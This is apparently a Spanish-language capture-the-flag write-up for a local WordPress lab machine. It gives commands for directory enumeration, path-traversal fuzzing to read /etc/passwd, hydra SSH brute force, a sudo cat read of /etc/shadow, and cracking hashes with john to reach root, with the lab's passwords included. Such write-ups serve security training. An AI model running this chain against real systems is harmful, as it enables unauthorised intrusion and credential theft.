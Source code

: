 nmap: 80,22

--- 
hacemo un gobuster:

    gobuster dir -u http://172.18.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,html,txt -k
    
y nos da un wordpress donde probamos en el buscador varios parámetros que nos da este comando:

       - wfuzz -c -u 172.18.0.2/wordpress/index.php?FUZZ=../../../../../../../../etc/passwd -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hl=40 --=115

   ---
   

        - http://172.18.0.2/wordpress/index.php?love=../../../../../../etc/passwd
        - que nos da la informacion root.
        - ahi nos da dos usuarios(rosa y pedro) y probamos con una fuerza bruta con los usuarios

fuerza bruta:

        - hydra ssh://172.18.0.2 -l rosa -P /usr/share/wordlists/rockyou.txt -t 64
    - nos da la contraseña: lovebug

ya dentro buscamos como escalar privilegios y aparece "cat" buscamos en: https://gtfobins.github.io/gtfobins/cat/  


colocamos el encontrado de esta forma:

           - sudo cat "/etc/shadow"  y nos muestra las contraseñas encriptadas.


tomamos los /etc/passwd y los shadow desde la terminal de rosa y los pasamos a la terminal nuestra. creamos un nano llamado shadow y otro passwords, luego pasamos a "unshadow passwd shadow > passwords", luego como las contraseña aparecen en formato de encriptacion ocupado el comando:  "john passwords --format=crypt" 
password es donde se guardo las cosas de contenidos de passwd y shadow de la terminal de rosa. luego de utilizar "john" nos da la contraseña de root: kittycat

colocamos en el terminal: su root / la contraseña: kittycat y somos root!. 